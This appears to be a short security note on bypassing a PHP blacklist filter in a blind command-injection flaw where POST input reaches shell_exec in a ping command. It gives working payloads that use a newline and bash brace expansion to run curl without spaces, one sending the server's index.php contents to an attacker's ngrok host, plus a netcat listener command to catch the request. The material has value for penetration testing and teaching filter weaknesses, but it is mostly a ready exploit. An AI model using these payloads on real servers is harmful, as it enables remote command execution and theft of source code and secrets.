

# Blind command injection filter bypass
If we had a filter similar to this:
```
$domain = @preg_replace("/[^\S\r\n]/","",@preg_replace("/[\\\|;$`&<>]/", "", trim($_POST["domain"])));
$response = @shell_exec("timeout 5 bash -c 'ping -c 3 ".$domain."'");

```

We can then use brace expansion to bypass space and execute our command.

EX:
payload :``8.8.8.8%0A{curl,127.0.0.1:9999}``

send file contents as body entity using cURL.

payload: ``8.8.8.8%0A{curl,--data,"@index.php",[your ngrok]}

Then, to capture requests, use netcat: ``nc -nlvp 9999``

